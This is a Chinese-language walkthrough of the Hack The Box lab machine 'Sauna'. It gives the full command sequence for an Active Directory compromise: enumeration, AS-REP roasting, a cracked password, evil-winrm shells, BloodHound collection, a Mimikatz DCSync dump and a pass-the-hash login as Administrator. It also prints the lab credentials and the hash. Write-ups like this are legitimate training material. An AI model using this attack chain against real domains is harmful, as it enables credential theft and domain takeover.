 ```yaml
---
description: Easy / 枚举 / AS-REP Roasting / DCsync
---
```


# ✔️ Sauna

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA sauna 10.129.77.184 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 发现开放目标系统开放了80端口，查看后并没有发现什么特别有用的信息，但是发现了很多用户名，先收集起来也许后续会有用：

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/3 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 对该80端口进行常规的隐藏文件/目录扫描，没什么收获：

```bash
gobuster dir -u http://10.129.77.184/ -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../.gitbook/assets/5 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* dirsearch也没有什么收获：

<figure><img src="../../.gitbook/assets/6 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用多个工具尝试无密码登录SMB服务，倒是成功了，但是还是无收获：

```bash
smbclient -N -L 10.129.77.184
```

<figure><img src="../../.gitbook/assets/7 (9).png" alt=""><figcaption></figcaption></figure>

```bash
crackmapexec smb 10.129.77.184
```

<figure><img src="../../.gitbook/assets/8 (9).png" alt=""><figcaption></figcaption></figure>

* 使用ldapsearch针对目标的LDAP目录树进行遍历的域名查询，获取到：**DC=EGOTISTICAL-BANK,DC=LOCAL**

```bash
ldapsearch -x -H LDAP://10.129.95.180 -s base namingcontexts
```

<figure><img src="../../.gitbook/assets/9 (7).png" alt=""><figcaption></figcaption></figure>

* 再次进行递归查询，发现有用信息：**dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL**

```bash
ldapsearch -x -H LDAP://10.129.95.180 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' -s sub 
```

* 将收集到的所有用户名及其改写的变体制作成一个username.txt文件：

<figure><img src="../../.gitbook/assets/10 (7).png" alt=""><figcaption></figcaption></figure>

* 因为已经收集到一些专门针对目标系统的有效用户名，所以可以尝试使用kerbrute进行一下暴破，找到几个用户名：

```
./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL username.txt --dc 10.129.95.180
```

<figure><img src="../../.gitbook/assets/11 (6).png" alt=""><figcaption></figcaption></figure>

* 使用GetNPUsers.py从username.txt中找出易受攻击的用户hash:

```bash
./GetNPUsers.Py 'EGOTISTICAL-BANK.LOCAL/' -usersfile username.txt -format hashcat -outputfile hashes.aspro -dc-ip 10.129.95.180
```

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

* 从这个hash中得知是fsmith这个账户的，破解该hash后获得明文密码：**Thestrokes23**

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 使用evil-winrm和刚才得到的有效凭证，登录目标系统成功获得shell：

```bash
evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
```

<figure><img src="../../.gitbook/assets/16 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/17 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 因为systeminfo.exe程序在目标中被限制，所以无法获得信息。随后枚举域内用户账户，得到6个账户：

```bash
net user /domain
# 分别枚举这6个账户名，查看它们的组成员关系：
net user fsmith /domain
```

<figure><img src="../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/22 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 因为常规的手动枚举并没有什么其他有用信息，所以决定使用bloodhound对该机器的所有信息进行分析，此时继续使用evil-winrm的upload模块，上传sharphound.exe到目标机器中进行信息收集：

```bash
# evil-winrm：
upload /root/Documents/HTB-AD/sauna/tools/sharphound.exe
# 上传完成后直接运行即可，后续会生成一个zip文件：
.\sharphound.exe
```

<figure><img src="../../.gitbook/assets/25 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将这个压缩文件下载下来，直接拖入Bloodhound里就行了：

```bash
# evil-winrm:
download 20240713.............._BloodHound.zip
```

<figure><img src="../../.gitbook/assets/28 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在查看SVC\_LOANMGR@EGOTISTICAL-BANK.LOCAL这个账户时发现，该账户有权限访问目标域上的所有更改（GetChangesAll / GetChanges），这意味着我可以执行DCsync攻击：

<figure><img src="../../.gitbook/assets/29 (1).png" alt=""><figcaption></figcaption></figure>

* 接下来继续使用evil-winrm上传winPEAS到目标中进行再次信息收集：

```bash
upload upload /root/Documents/HTB-AD/sauna/tools/winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/30 (1).png" alt=""><figcaption></figcaption></figure>

* 输出信息中包含了SVC\_LOANMGR账户的用户名和密码：

<figure><img src="../../.gitbook/assets/31 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 利用svc\_loanmanager这个账户的凭证，用evil-winrm登录到目标中：

```bash
evil-winrm -i 10.129.82.224 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

<figure><img src="../../.gitbook/assets/32 (1).png" alt=""><figcaption></figcaption></figure>

* 上传mimikatz到目标中，然后用DCsync攻击转储内置域管理员账户哈希：

```bash
# 上传：
upload Invoke-Mimikatz.ps1
# 使用mimikatz：
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:Egotistical-bank.local /user:Administrator"'
```

<figure><img src="../../.gitbook/assets/33 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/34 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/35 (1).png" alt=""><figcaption></figcaption></figure>

* 获得Administrator账户及其hash值：

<figure><img src="../../.gitbook/assets/36.png" alt=""><figcaption></figcaption></figure>

* 利用hash登录，获得Administrator权限的shell，至此已完全控制DC，get flag!

```bash
evil-winrm -i 10.129.82.224 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

<figure><img src="../../.gitbook/assets/37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/38.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例机器中途重置后IP有变化，但其利用过程无影响。
{% endhint %}
